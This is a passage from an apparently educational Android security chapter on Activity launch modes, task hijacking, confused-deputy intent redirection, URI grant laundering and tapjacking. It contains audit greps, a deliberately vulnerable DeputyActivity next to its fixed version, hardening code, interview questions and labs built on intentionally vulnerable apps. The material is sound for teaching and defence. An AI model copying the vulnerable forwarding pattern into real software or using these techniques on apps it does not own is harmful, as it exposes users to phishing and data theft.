| Non-exported Activity refused to `adb shell` (uid 2000), by uid, in the message | §4.2, §5.3 |
| The same Activity reached through the deputy | §5.3 |
| Non-exported provider refused to the attacker's uid | §5.3 |
| The same provider read by the attacker's uid after grant laundering, confirmed by `Binder.getCallingUid()` **inside the provider** | §5.3 |
| The laundered grant did **not** persist past the receiving Activity | §5.3 |
| `DeputyActivityFixed` ignored the identical payload | §5.3 |
| Package visibility turns a `SecurityException` into a null cursor | §7.5 |
| `adb install` and `pm install` both refused; root install succeeded | §7.8 |
| MIUI refuses **every app-originated activity start** while the keyguard is up, including an app starting its own Activity | §7.8a |
| `appops set ... SYSTEM_ALERT_WINDOW allow` works under root and is reset by reinstall | §5.5 |
| `frida 16.1.6` hooks reproduce the `singleTop` result from inside the app | §7.4 |
| A `singleTop` Activity's cached fields survive instance reuse: same `instance=` across one `onCreate` and two `onNewIntent` calls, with the cached authorisation flag intact | §3.1, `labs/lab-05` |

| **Not** measured — documented only | Why |
|---|---|
| **The end-to-end tapjacking tap-through** | The device was locked (`deviceLocked=1`) for the whole session; no app could reach a foreground process state, so the overlay Service could never start. Unlocking needs the owner's credential and disabling the lock screen was out of scope. §5.5 states this in full. |
| The API level at which affinity namespacing was introduced in AOSP | One device was tested. §3.12's matrix says "measure it" rather than guessing. |
| `singleInstancePerTask` (API 31+) | Not available on an API 30 device. |
| `getLaunchedFromPackage()` / `getLaunchedFromUid()` (API 34+) | Same. |
| `android:requireContentUriPermissionFromCaller` (API 35+) | Same. |
| Behaviour on a device *without* affinity namespacing | No such device was available. This is the most valuable outstanding measurement in the chapter. |
| The **last link of lab-05's chain** — that `startActivityForResult` from an in-app Activity makes the target's `getCallingActivity()` name the caller's package | The device locked itself mid-session and the `KeyguardLocked` policy in §7.8a then refused every app-originated activity start. The other three links of that chain **were** measured; this one is documented framework behaviour. `labs/lab-05` says so in its own verification table. |

---

## 8. Static Analysis

[32-Manifest](../32-Manifest/README.md) owns the manifest audit and ships `manifest-audit.py`. Run it
first. This section is the **code-side** search that 32 does not do, plus the specific greps that find
this chapter's bug families.

### 8.1 Extraction

```bash
# host
apktool d -f -o work target.apk          # manifest + smali + resources
jadx -d out target.apk                   # java-ish sources
unzip -o target.apk -d raw               # the raw entries, if you need them
```

### 8.2 Finding the deputies

```bash
# host — Java: the primitive
grep -rn "getParcelableExtra" out/sources/ | grep -i intent

# host — Java: the primitive AND a send, which is what makes it a finding
grep -rn -A8 "getParcelableExtra" out/sources/ \
  | grep -B6 -E "startActivity|startActivityForResult|startService|sendBroadcast|setResult"

# host — Smali: obfuscation-proof (section 6.3)
grep -rn --include='*.smali' -A6 'Landroid/content/Intent;->getParcelableExtra' work/smali* \
  | grep -B1 -A5 'check-cast .*Landroid/content/Intent;'

# host — the API 33 typed overload, which the older greps miss
grep -rn "getParcelableExtra(.*\.class)" out/sources/

# host — the STRING flavour, which is web-reachable and therefore higher severity
grep -rn "Intent\.parseUri\|parseUri(" out/sources/
```

`26-Intent/scripts/intent-surface-map.py --redirect work/` automates all of the above and is the
right tool; the greps are here so you can do it on a machine that does not have the repository.

### 8.3 Finding the tapjacking exposure

```bash
# host — is the defence present anywhere at all?
grep -rn "setFilterTouchesWhenObscured\|filterTouchesWhenObscured" out/sources/ work/res/
grep -rn --include='*.smali' "setFilterTouchesWhenObscured" work/smali*

# host — is FLAG_SECURE set on any window?
grep -rn "FLAG_SECURE" out/sources/
grep -rn --include='*.smali' "0x2000 # FLAG_SECURE\|FLAG_SECURE" work/smali*

# host — the consequential screens: what do they DO on a click?
grep -rn "setOnClickListener" out/sources/ | grep -iE "consent|confirm|approve|grant|transfer|pay|delete"
```

The finding is the intersection: a screen whose click handler is consequential and which does **not**
appear in the first grep's results.

### 8.4 Finding the task configuration

```bash
# host — every launch mode and affinity, with the activity they belong to
aapt2 dump xmltree --file AndroidManifest.xml target.apk \
  | grep -E 'E: activity|android:name|android:launchMode|android:taskAffinity|android:allowTaskReparenting|android:exported'

# host — the hardening: is it present?
grep -n 'android:taskAffinity=""' work/AndroidManifest.xml

# host — the red flag: an affinity naming a package that is not this one
grep -oE 'android:taskAffinity="[^"]*"' work/AndroidManifest.xml | sort -u
grep -oE 'package="[^"]*"' work/AndroidManifest.xml | head -1
```

### 8.5 Finding the result-channel bugs

```bash
# host — every result handler
grep -rn "onActivityResult" out/sources/

# host — result handlers that read extras (the unvalidated-input shape)
grep -rn -A10 "onActivityResult" out/sources/ | grep -E "getStringExtra|getBooleanExtra|getIntExtra|getData"

# host — outbound implicit starts that expect a result (the "who answered?" shape)
grep -rn -B4 "startActivityForResult" out/sources/ | grep -E "new Intent\(\"|setAction"

# host — the forward-result flag
grep -rn "FLAG_ACTIVITY_FORWARD_RESULT\|0x2000000" out/sources/ work/smali*
```

### 8.6 Why automated tools produce false positives here

Worth knowing so you can explain a scanner's output rather than repeating it:

| Tool says | Why it is often wrong |
|---|---|
| "Task hijacking: `taskAffinity` not set" | The platform may namespace affinities, in which case the attack does not work. The tool cannot know; it never looked at a device. Check with `task-affinity-map.py --check` and downgrade accordingly. |
| "Activity is exported — critical" | Export is a precondition. Most exported Activities are exported deliberately and do nothing sensitive. |
| "Intent redirection" on `PendingIntent pi = intent.getParcelableExtra("cb")` | A received `PendingIntent` is a *token*, not a redirection primitive. Different bug class entirely. `26-Intent`'s script carries a negative lookbehind for exactly this. |
| "No `FLAG_SECURE`" on every Activity | Only meaningful on screens that display something worth capturing. |
| "Tapjacking: `filterTouchesWhenObscured` absent" on every view | Only meaningful where a tap is consequential. |
| "`allowTaskReparenting` enabled" | Frequently inherited from a library manifest via merge. Check the merged manifest and the library, and say which. |

---

## 9. Examples

Five graded examples. All of them are real, compiling code; the first four are excerpts of files
that ship in `examples/`, and the fifth is a complete pattern you can lift into a review.

### 9.1 Simple — make a launch mode observable

The smallest useful Activity in this chapter. It does nothing except tell you which task it is in and
which Java object it is, which is the entire instrumentation needed to read a launch mode.

```java
// examples/victim-app/Base.java (excerpt)
public class Base extends Activity {
    protected static final String TAG = "CH30";

    @Override protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.i(TAG, "onCreate " + getClass().getSimpleName()
                + " taskId=" + getTaskId()
                + " instance=" + System.identityHashCode(this)
                + " callingActivity=" + getCallingActivity());
        // ... build a trivial UI ...
    }

    @Override protected void onNewIntent(Intent intent) {
        super.onNewIntent(intent);
        // Reaching this method AT ALL is the finding: the system reused this
        // instance rather than constructing a new one.
        Log.i(TAG, "onNewIntent " + getClass().getSimpleName()
                + " taskId=" + getTaskId()
                + " instance=" + System.identityHashCode(this));
    }
}
```

**Why `System.identityHashCode` and not the `ActivityRecord` hash from `dumpsys`.** The `dumpsys`
hash identifies the *system's* record. `identityHashCode` identifies the *app's* object. They are not
the same thing, and the distinction is exactly what "the system reused the instance" means. Two log
lines with the same value are one Java object; two different values are two `onCreate` calls.

Run it:

```bash
# host
adb shell "am start -n com.pentest.ch30.victim/.BetaActivity"   # x3
adb shell "logcat -d -s CH30:I"
```

### 9.2 Intermediate — the deputy, and its fixed counterpart

The vulnerable version, in full — it is three lines of logic:

```java
// examples/DeputyActivity.java
public class DeputyActivity extends Activity {
    public static final String EXTRA_NEXT = "next";

    @Override protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent next = getIntent().getParcelableExtra(EXTRA_NEXT);
        Log.i("CH30", "DeputyActivity forwarding: " + next);
        if (next != null) {
            // startActivity() runs as THIS app. Every privilege decision the
            // system is about to make -- component visibility, exported checks,
            // permission checks, URI grant issuance -- is made against the
            // victim's identity, not the attacker's.
            startActivity(next);
        }
        finish();
    }
}
```

The fixed version, in full:

```java
// examples/DeputyActivityFixed.java
public class DeputyActivityFixed extends Activity {
    public static final String EXTRA_DEST = "dest";

    // The closed allow-list. Adding an entry is a code change and a code review.
    private static final Map<String, Class<?>> DESTINATIONS;
    static {
        Map<String, Class<?>> m = new HashMap<String, Class<?>>();
        m.put("home", MainActivity.class);
        m.put("internal", InternalActivity.class);
        DESTINATIONS = Collections.unmodifiableMap(m);
    }

    @Override protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // 1. Read a SELECTOR, not an Intent. getStringExtra cannot return
        //    anything startable, so there is no primitive to abuse.
        String dest = getIntent().getStringExtra(EXTRA_DEST);

        Class<?> target = dest == null ? null : DESTINATIONS.get(dest);
        if (target == null) {
            // 2. Fail CLOSED, and log -- a stream of rejects is somebody
            //    enumerating the allow-list.
            Log.w("CH30", "DeputyActivityFixed rejected dest=" + dest);
            setResult(RESULT_CANCELED);
            finish();
            return;
        }

        // 3. Build the Intent HERE, from a class literal. The ComponentName
        //    comes from the compiler; no field has been touched by the caller.
        Intent next = new Intent(this, target);

        // 4. Carry NOTHING across. No attacker extra reaches the internal
        //    screen and no attacker flag reaches the system -- in particular
        //    FLAG_GRANT_READ_URI_PERMISSION and FLAG_ACTIVITY_FORWARD_RESULT
        //    cannot be present, because nothing set them.
        next.setFlags(Intent.FLAG_ACTIVITY_NO_HISTORY);

        startActivity(next);
        finish();
    }
}
```

The diff that matters is not "added validation". It is **"stopped accepting an Intent"**. You cannot
sanitise an Intent — it is a dozen independently attacker-controlled fields plus an arbitrary
`Bundle`, and a filter must be right about all of them forever. A closed allow-list must be right
about one thing, once.

### 9.3 Advanced — a real cross-app task measurement

Not an attack: an instrument. It exists because `adb shell am` cannot express the case that matters
(§7.3), so the measurement has to come from a real Activity in a real task.

```java
// examples/hijacker-app/CrossStartActivity.java (excerpt)
public class CrossStartActivity extends Activity {
    private static final String VICTIM_PKG = "com.pentest.ch30.victim";

    @Override protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        boolean newTask = getIntent().getBooleanExtra("newtask", false);
        String cls = VICTIM_PKG + ".AlphaActivity";

        Log.i("CH30", "CrossStart myTaskId=" + getTaskId()
                + " target=" + cls + " newTask=" + newTask);

        Intent i = new Intent();
        i.setComponent(ComponentName.unflattenFromString(VICTIM_PKG + "/" + cls));
        if (newTask) {
            i.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
        }

        try {
            startActivity(i);
        } catch (Exception e) {
            // A SecurityException here means the target was exported="false".
            // That is a result too -- record it rather than crashing the lab.
            Log.i("CH30", "CrossStart FAILED: " + e);
        }
    }
}
```

The measured result is §3.8: without the flag, both packages end up in one task; with it, they do
not. Twenty lines, and they demonstrate the one task attack that modern devices do **not** mitigate.

### 9.4 Real application — hardening a login flow

A realistic composite, showing every control in this chapter applied to the screen that actually
matters. Each line is annotated with what it stops.

```xml
<!-- AndroidManifest.xml -->
<application android:taskAffinity="">                      <!-- 5.2: nothing to squat -->
    <activity
        android:name=".LoginActivity"
        android:exported="false"                            <!-- 5.7: not an entry point -->
        android:launchMode="singleTask"                     <!-- 3.8: cannot be pulled into
                                                                  a foreign task -->
        android:excludeFromRecents="true"                   <!-- weak; FLAG_SECURE is the control -->
        android:noHistory="true"                            <!-- not resumable from Recents -->
        android:showWhenLocked="false"
        android:turnScreenOn="false"
        android:allowEmbedded="false"
        android:resizeableActivity="false"/>                <!-- no side-by-side observation -->

    <!-- The deep-link entry point is a SEPARATE, minimal Activity. It does not
         become the login screen; it validates and then starts one internally. -->
    <activity android:name=".LinkEntryActivity" android:exported="true">
        <intent-filter android:autoVerify="true">
            <action android:name="android.intent.action.VIEW"/>
            <category android:name="android.intent.category.DEFAULT"/>
            <category android:name="android.intent.category.BROWSABLE"/>
            <data android:scheme="https" android:host="app.example.com"
                  android:pathPrefix="/login"/>
        </intent-filter>
    </activity>
</application>
```

```java
public final class LoginActivity extends AppCompatActivity {

    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);

        // 3.9: nothing on this screen may be screenshotted, recorded, or
        // captured into the Recents thumbnail. MUST be before setContentView.
        getWindow().setFlags(WindowManager.LayoutParams.FLAG_SECURE,
                             WindowManager.LayoutParams.FLAG_SECURE);

        setContentView(R.layout.activity_login);

        // 5.5: obscured touches are DISCARDED, on the root and on the control.
        findViewById(R.id.root).setFilterTouchesWhenObscured(true);
        findViewById(R.id.signInButton).setFilterTouchesWhenObscured(true);
    }

    @Override protected void onResume() {
        super.onResume();
        // 3.8: refuse to render credentials in a task we did not root. This is a
        // DETECTIVE control, not a preventive one -- an attacker can root a task
        // that looks fine -- so it is defence in depth, never the fix.
        if (!isTaskRoot() && !getPackageName().equals(basePackageOfTask())) {
            Log.w("SEC", "login rendered in a foreign task; refusing");
            finish();
        }
    }

    // 3.1: if this Activity is ever made singleTop/singleTask, getIntent() will
    // go stale. Update it explicitly so validation and action see one object.
    @Override protected void onNewIntent(Intent intent) {
        super.onNewIntent(intent);
        setIntent(intent);
        handle(intent);
    }

    private String basePackageOfTask() {
        ActivityManager am = (ActivityManager) getSystemService(ACTIVITY_SERVICE);
        List<ActivityManager.AppTask> tasks = am.getAppTasks();   // OUR tasks only
        if (tasks.isEmpty()) return getPackageName();
        ComponentName base = tasks.get(0).getTaskInfo().baseActivity;
        return base == null ? getPackageName() : base.getPackageName();
    }
}
```

> **Warning**
> `ActivityManager.getAppTasks()` returns only **your own** tasks — it cannot see an attacker's. The
> `onResume` check above therefore detects "my Activity is in a task I do not root", which is the
> §3.8 shape, and cannot detect much else. `getRunningTasks()`, which people reach for instead, has
> been restricted since API 21 and returns almost nothing useful. Be honest in the report about what
> a detective control can and cannot see.

### 9.5 Enterprise — an Activity gateway with a real identity check

The pattern for the case where identity genuinely matters: a screen other applications are meant to
reach, but only *some* of them.

```java
public final class PartnerGatewayActivity extends Activity {

    // Pin the SIGNING CERTIFICATE, not the package name. Package names are
    // attacker-choosable wherever the attacker controls installation.
    private static final Set<String> TRUSTED_SHA256 = Collections.unmodifiableSet(
            new HashSet<>(Arrays.asList(
                    "3a7bd3e2360a3d29eea436fcfb7e44c735d117c42d1c1835420b6b9942dd4f1b")));

    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);

        // STEP 1 -- do we have ANY identity at all? getCallingActivity() is
        // non-null only if the caller used startActivityForResult. If it is
        // null we know nothing, so we fail closed. (3.6, tier 2.)
        ComponentName caller = getCallingActivity();
        if (caller == null) {
            reject("no result channel: caller is anonymous");
            return;
        }

        // STEP 2 -- resolve the package NAME to a signing certificate and
        // compare the digest. A name on its own is worth nothing.
        if (!isTrusted(caller.getPackageName())) {
            reject("untrusted signer for " + caller.getPackageName());
            return;
        }

        // STEP 3 -- only now read the request, and read it as a SELECTOR.
        String op = getIntent().getStringExtra("op");
        if (!"summary".equals(op)) { reject("unknown op " + op); return; }

        Intent result = new Intent();
        result.putExtra("summary", buildSummary());
        // Note what is NOT set: no FLAG_GRANT_*, no content:// URI. If this
        // gateway ever needs to return a URI, that is a separate design review.
        setResult(RESULT_OK, result);
        finish();
    }

    private boolean isTrusted(String pkg) {
        try {
            PackageInfo pi = getPackageManager().getPackageInfo(
                    pkg, PackageManager.GET_SIGNING_CERTIFICATES);
            Signature[] sigs = pi.signingInfo.getApkContentsSigners();
            MessageDigest md = MessageDigest.getInstance("SHA-256");
            for (Signature s : sigs) {
                if (TRUSTED_SHA256.contains(hex(md.digest(s.toByteArray())))) return true;
            }
        } catch (Exception e) {
            // Fail closed on ANY error. A PackageManager exception is not a pass.
            Log.w("SEC", "signature check failed for " + pkg, e);
        }
        return false;
    }

    private void reject(String why) {
        Log.w("SEC", "PartnerGateway rejected: " + why);
        setResult(RESULT_CANCELED);
        finish();
    }

    private static String hex(byte[] b) {
        StringBuilder sb = new StringBuilder(b.length * 2);
        for (byte x : b) sb.append(String.format("%02x", x));
        return sb.toString();
    }
}
```

> **Mental Model**
> This is about as good as an Activity can be at identity, and it is still worse than a bound
> Service, which reads a **kernel-stamped** uid inside a live Binder transaction. If identity is
> load-bearing, the right recommendation is usually "move this to a Service, or put a
> `signature`-level permission on it and let `system_server` enforce it before you are started".
> Chapter 30's honest answer to "how do I authenticate my Activity's caller" is **"prefer not to have
> to"**.

---

## 10. Common Interview Questions

### Beginner

**Q. What is an Activity?**
One screen of an application, plus the code that runs while that screen exists. It extends
`android.app.Activity`, is declared in the manifest, and — critically — its lifetime is controlled by
the operating system rather than by the app.

**Q. What is a task?**
A stack of Activities the user perceives as one piece of work. The device has many; it shows one at a
time; Recents is a picture of the tasks. The key follow-up is that **a task is not an app** —
Activities from different packages can share one task.

**Q. What is the back stack?**
The ordered list of Activities inside a task. Back pops the top one. There is one back stack per
task, so "the back stack" without naming a task is ambiguous.

**Q. Name the launch modes.**
`standard`, `singleTop`, `singleTask`, `singleInstance`, and `singleInstancePerTask` from API 31.

**Q. What does `exported="true"` mean on an Activity?**
Any application on the device may ask the system to start it, with an Intent of that application's
choosing. Its default is `true` when the Activity has an `<intent-filter>` and `false` otherwise, and
it became mandatory to state explicitly from `targetSdk` 31.

### Intermediate

**Q. What does `singleTop` actually do?**
If an instance of the Activity is **already at the top of the target task**, the system reuses it and
calls `onNewIntent` instead of constructing a new one. If an instance exists anywhere else in the
stack, a new one is built. The good answer includes the consequence: **two instances of a
`singleTop` Activity can coexist in one task**, so it does not mean "only one of these ever".

**Q. What is `taskAffinity` and what is its default?**
A string naming the task an Activity prefers. Its default is the package name, which is why an app's
screens share a task without anybody configuring anything. `""` means no affinity and is the
hardening value.

**Q. When is `taskAffinity` consulted?**
Only when a task is being **chosen or created** — that is, with `FLAG_ACTIVITY_NEW_TASK`, or for a
`singleTask`/`singleInstance` Activity, or when starting from a non-Activity context. A `standard`
Activity started from another Activity with no flags joins the caller's task and its affinity is
ignored entirely.

**Q. Can an Activity find out which app started it?**
Usually not. `getCallingActivity()` / `getCallingPackage()` are set by the system, but **only** when
the caller used `startActivityForResult`. `getReferrer()` falls back to an attacker-written extra.
`Binder.getCallingUid()` in `onCreate` returns your own uid, because `system_server` performed the
start on a separate transaction. From API 34 there is `getLaunchedFromPackage()`.

**Q. What is tapjacking and how do you stop it?**
Another app draws a `FLAG_NOT_TOUCHABLE` overlay above your window, so the user taps text they can
see and hits a control they cannot. The platform sets `FLAG_WINDOW_IS_OBSCURED` on the `MotionEvent`
and delivers it anyway; `View.setFilterTouchesWhenObscured(true)` makes the view discard such events.

### Senior

**Q. Explain task hijacking, and tell me whether it still works.**
An attacker declares `android:taskAffinity` equal to the victim's package name and
`android:launchMode="singleTask"`. Launching the attacker once creates a task carrying the victim's
affinity; when the user later launches the victim, `ActivityStarter.getReusableTask()` finds the
attacker's task and brings that forward instead.

The answer that separates a senior candidate: **"and I would measure it rather than tell you a
version number."** On the device I tested — Android 11 / API 30 — it failed, because the platform
namespaces effective affinities with the declaring app's uid: the attacker got
`10312:com.victim` and the victim got `10311:com.victim`, so the strings never match. I would run
`dumpsys activity activities` on the target device and look at whether affinity strings carry a
`<uid>:` prefix before rating the finding.

**Q. If affinity namespacing blocks that, is the task model safe?**
No, and this is the interesting half. Namespacing stops an attacker *pulling* the victim into a task
it owns. It does nothing about an attacker *pushing*: a cross-app `startActivity()` **without**
`FLAG_ACTIVITY_NEW_TASK` places the callee in the **caller's** task, and affinity is never consulted
on that path. I measured two packages in one task on the same API 30 device. The consequence is that
Back walks from the victim's screen straight to an attacker's screen with no seam.

**Q. Walk me through a confused-deputy Activity.**
An exported Activity reads an `Intent` from an extra and starts it. `startActivity` then runs with
the victim's uid, so the forwarded Intent reaches components the attacker could not reach — including
`exported="false"` ones — and any `FLAG_GRANT_READ_URI_PERMISSION` on it causes the system to issue a
URI grant *on the victim's behalf* to a target *the attacker chose*. I would demonstrate it with a
control first: show the direct access being refused by uid, then show the same access succeeding
through the deputy, and prove it with `Binder.getCallingUid()` logged inside the provider.

**Q. Why does `getIntent()` go stale?**
`onNewIntent` hands you the new Intent but does not update the field `getIntent()` returns. Unless
the Activity calls `setIntent()`, validation performed on `getIntent()` in `onCreate` and action
taken on the `onNewIntent` object are operating on two different messages. Any instance-reusing
launch mode — or a caller setting `FLAG_ACTIVITY_SINGLE_TOP` — makes that reachable from outside.

### Staff Engineer

**Q. How would you design an app so that this whole class of problem cannot occur?**
Four decisions, in order of value. (1) Export the minimum: one narrow entry Activity per external
integration, never the screens themselves. (2) Entry Activities take **selectors**, never Intents,
and never propagate a `Bundle` inward. (3) `android:taskAffinity=""` application-wide, and
`launchMode="singleTask"` on any screen that must not be pulled into a foreign task. (4) `FLAG_SECURE`
plus `filterTouchesWhenObscured` on every screen that either shows a secret or accepts a
consequential decision. Then make each of those four a lint rule, because the next engineer will not
have read this chapter.

**Q. A scanner reports "task hijacking" on your flagship app. Triage it.**
First: is the platform namespacing affinities on the devices in our support matrix? If yes, this is
an Informational hardening item — I will fix it, because `taskAffinity=""` is free, but it is not a
release blocker. If some supported devices do not namespace, it is a Medium: a working
credential-phishing primitive that still requires malware on the device. Either way I would want a
screenshot from a two-app reproduction before it goes on a risk register, because a task id is not a
deception.

**Q. What would you add to CI?**
A manifest assertion that `<application android:taskAffinity="">` is present and that no `<activity>`
overrides it; a lint check that every `getParcelableExtra` returning an `Intent` is followed by
either a closed allow-list check or a `@SuppressLint` with a reviewer's name; and an instrumented
test that starts each exported Activity from a *separate test APK* — not from the instrumentation
process, which shares the app's uid and therefore proves nothing.

### Principal Engineer

**Q. Affinity namespacing was a platform-side fix for an app-side misconfiguration. Was that the
right call, and what does it cost?**
It was right, because the vulnerable configuration was the **default** and the population that had to
change was every Android developer. Platform fixes are the only ones that scale to a default. The
cost is real, though: it is invisible. The manifest still says `com.victim`, so a static tool, a
developer reading their own manifest, and every write-up published before the change all continue to
describe an attack that no longer works. That gap between the declaration and the runtime is now
permanent, and it is why an auditing methodology that only reads manifests has a systematic blind
spot rather than an occasional one.

**Q. The StrandHogg 2.0 variant needed no manifest declaration. What does that tell you about
defence strategy?**
That the manifest is a *description* of intent, not a *definition* of behaviour, and that any control
keyed to the description is one clever primitive away from irrelevance. The durable defences in this
chapter are the ones that do not depend on how the attacker asked: `taskAffinity=""` removes the
name; `FLAG_SECURE` removes the capture; `filterTouchesWhenObscured` removes the input. None of them
cares which API the attacker used. Controls that enumerate attacker techniques age badly; controls
that remove the attacker's target do not.

**Q. Where would you spend engineering effort to reduce this class platform-wide?**
On making the safe thing the default and the unsafe thing loud. `android:exported` becoming mandatory
at `targetSdk` 31 is the model: it did not fix anything by itself, but it forced every developer to
type an answer, and typing an answer is when people think.
`android:requireContentUriPermissionFromCaller` in API 35 is the same move aimed at the deputy — it
makes the *caller* prove it already held the grant, which kills laundering at the source rather than
asking every app to write correct forwarding code. I would want the same treatment for the result
channel: a way to declare "results from this start must come from a specific signer", so that
`onActivityResult` stops being an unvalidated IPC entry point by default.

---

## 11. Common Mistakes

### 11.1 Developer mistakes

| Mistake | Why it happens | What it costs | Fix |
|---|---|---|---|
| Never setting `android:taskAffinity=""` | The default is invisible and works | The app's task carries a name derived from the package, which is public | One attribute on `<application>` |
| Believing `singleTop` means "only one instance ever" | The name suggests it | Two instances coexist as soon as anything is stacked above the first; a login screen gets a second, unvalidated entry point | Use `singleTask` if you mean one per affinity group, and understand its clear-top behaviour |
| Believing `singleTask` always creates a new task | Repeated in most write-ups | Wrong mental model leads to wrong reasoning about where sensitive screens live | Measure it: §3.4 |
| Validating `getIntent()` in `onCreate` and acting on `onNewIntent`'s Intent | `getIntent()` looks like "the current Intent" | The validated message and the acted-upon message are different objects | Call `setIntent(intent)` at the top of `onNewIntent` |
| Accepting an `Intent` in an extra and starting it | The feature request is reasonable and this is the obvious implementation | Confused deputy: reachability plus grant laundering (§5.3) | Accept a **selector**; build the Intent yourself from a class literal |
| "Fixing" the deputy by checking `getPackage()` | Looks like a package check | `getPackage()` is `null` on an Intent that only sets a `ComponentName`, so the check is skipped on the exact input that matters | Resolve the component and compare that — better, do not accept an Intent |
| Forwarding an Intent after stripping only `FLAG_GRANT_*` | The grant flags are the famous ones | Still an open redirect to every non-exported screen, still carrying an attacker `Bundle` inward | Closed allow-list |
| Trusting `onActivityResult`'s Intent | It looks like a return value | It is an inbound IPC message from a process you may not have chosen | Explicit outbound Intent, signature-pinned callee, and validate the result like any input |
| `getCallingPackage()` treated as authentication | It returns a real package name | Package names are attacker-choosable where the attacker controls installation | Resolve to the signing certificate; or use a `signature`-level permission |
| `Binder.getCallingUid()` in `onCreate` | It works in a Service, so it "should" work here | Returns your own uid — a check that always passes | §3.6; move the operation to a bound Service |
| No `filterTouchesWhenObscured` on a consent button | Nothing tells you it is missing | Tapjacking: a tap the user did not intend | One line per consequential control |
| Using `android:excludeFromRecents` where `FLAG_SECURE` was meant | Both sound like "keep it out of Recents" | The system snapshot is still taken; the secret is still written to disk | `FLAG_SECURE`, before `setContentView` |
| Setting `FLAG_SECURE` after `setContentView` | Easy to get the order wrong | The window is already created; the flag may not apply | Set it first, in `onCreate` |
| Exporting a screen rather than a narrow entry point | It is one line fewer | Every internal screen becomes an entry point with attacker-chosen extras | One minimal `LinkEntryActivity`; keep the screens `exported="false"` |

### 11.2 Pentester mistakes

| Mistake | Why it is wrong | Do instead |
|---|---|---|
| Reporting "task hijacking" from a manifest read | The platform may namespace affinities, in which case the attack does not work at all | `python3 -B scripts/task-affinity-map.py --check`, then report the measured verdict |
| Reporting "task hijacking is fixed in Android N/O/whatever" | You did not measure that; you read it | Report the device you measured, its release and API, and the verdict |
| Using `adb shell am` to prove reachability | uid 2000 is privileged and holds permissions no app holds | Write the twelve-line attacker app |
| Concluding a deputy is safe because `am` could not trigger it | `am` has no `--eparcelable`, so the Parcelable flavour is invisible to it | `examples/hijacker-app/DeputyExploitActivity.java` |
| Measuring task placement with `am` | `am` always implies `FLAG_ACTIVITY_NEW_TASK`, so you never see the joins-the-caller's-task case | `examples/hijacker-app/CrossStartActivity.java` |
| Reading a null cursor as "no such provider" | On API 30+ it usually means package visibility | Distinguish the three outcomes: exception / null / row (§7.5) |
| Reporting an exported Activity as a finding | Export is a precondition | Demonstrate a consequence, or file it as informational and say what would raise it |
| Claiming a hijack without a screenshot | A task id does not establish that a human would be deceived | Screenshot both states: what the user asked for, what they got |
| Treating every obscured touch as an attack | Volume panels, gesture bars and blue-light filters set the same flag | Correlate with `dumpsys window windows` and name the owner |
| Reporting `SYSTEM_ALERT_WINDOW` holders as findings | An OEM device legitimately has twenty of them — measured | Only where the holder is untrusted *and* a victim screen is undefended |
| Grepping only for `<activity>` | `<activity-alias>` has its own `exported` and `permission` | Grep both |
| Double-counting tasks from `dumpsys` | The dump prints the graph twice | Key by task id |

### 11.3 Reverse engineer mistakes

| Mistake | Why it is wrong | Do instead |
|---|---|---|
| Hunting for Activities by class name | Obfuscation renames them | Start from the manifest; `android:name` must resolve to a real class |
| Assuming obfuscation hides the redirection primitive | `getParcelableExtra` and `Landroid/content/Intent;` are framework symbols and cannot be renamed | Grep Smali for the `check-cast` signature (§6.3) |
| Looking for launch modes in code | They are manifest-only | `aapt2 dump xmltree`, and cross-check with `dumpsys` |
| Reading the manifest's `taskAffinity` and stopping | The runtime value differs — the uid prefix is applied by `system_server` | Read both, and let the disagreement teach you (§4.2 step 6) |
| Expecting an overlay Service to be exported | Real malware starts it from inside its own process | Grep Services for `addView` with `WindowManager.LayoutParams` |
| Mistaking the overlay sample's trivial launcher Activity for the payload | It exists only to satisfy the API 26 background-service restriction | Follow it to the Service |
| Treating a received `PendingIntent` as a redirection primitive | It is a capability token, a different bug class | Check whether the object is `Intent` or `PendingIntent` before classifying |
| Giving up when the DEX is packed | The platform's records do not care about packing | `dumpsys package`, `dumpsys activity activities`, `cmd package query-activities` |

---

## 12. Hands-on Labs

Five labs, increasing in difficulty, ending with a CTF. All of them use the two apps in `examples/`,
which you build and install with one command.

```bash
# host — build both apps out of tree and install them
cd examples && ./build.sh --install
```

> The apps in `examples/` are deliberately vulnerable and the attacker app deliberately squats a task
> affinity. Install them on a device you own, and uninstall both when you are finished. Never point
> `taskAffinity` at an application you do not own — see [SECURITY.md](../SECURITY.md) for the
> handling rules:
>
> ```bash
> cd examples && ./build.sh --uninstall
> ```

| Lab | Objective | Difficulty | Needs |
|---|---|---|---|
| [Lab 01 — Read the task graph](labs/lab-01-read-the-task-graph.md) | Derive all four launch modes from evidence, and observe a mixed-package task | Beginner | Device, both apps |
| [Lab 02 — Task hijacking, proved or disproved](labs/lab-02-task-hijacking.md) | Run the StrandHogg configuration and determine, with evidence, whether it works on your device | Intermediate | Device, both apps |
| [Lab 03 — The deputy that launders a grant](labs/lab-03-deputy-grant-laundering.md) | Reach a non-exported Activity and read a non-exported provider, with a control for each | Intermediate–Advanced | Device, both apps |
| [Lab 04 — Tapjacking a consent screen](labs/lab-04-tapjacking-consent.md) | Raise an overlay, land an obscured tap, and show the defence stopping it | Advanced | **Unlocked** device, both apps, `SYSTEM_ALERT_WINDOW` |
| [Lab 05 — CTF: The Understudy](labs/lab-05-ctf-the-understudy.md) | Chain three of this chapter's primitives to recover a flag | CTF | Device, both apps |

Every lab states its success criteria as **evidence you must be able to show**, not as "it worked".
That is deliberate: three of these five have outcomes that depend on the device, and a lab whose only
pass condition is "the attack succeeded" would be unrunnable on half the hardware in the world.

---

## 13. Summary

### Key points

- An **Activity** is one screen whose lifetime is owned by the system, not by the app. Starting one
  is **IPC** — your app asks `system_server`, and `system_server` decides.
- A **task** is a stack of Activities the user perceives as one app. **A task is not an app.**
  Activities from two packages can share one, and the Back button will walk across that boundary.
- **`taskAffinity`** names the task an Activity prefers; its default is the package name; `""` is the
  hardening value. It is consulted **only** when a task is being chosen or created.
- The **launch modes**, measured: `standard` always builds a new instance; `singleTop` reuses only at
  the top, so two instances can coexist; `singleTask` reuses the instance, **stays in the same task**,
  and destroys everything above it; `singleInstance` lives alone in a task nothing else may join.
- **Task hijacking** declares the victim's affinity with `launchMode="singleTask"`. On the tested
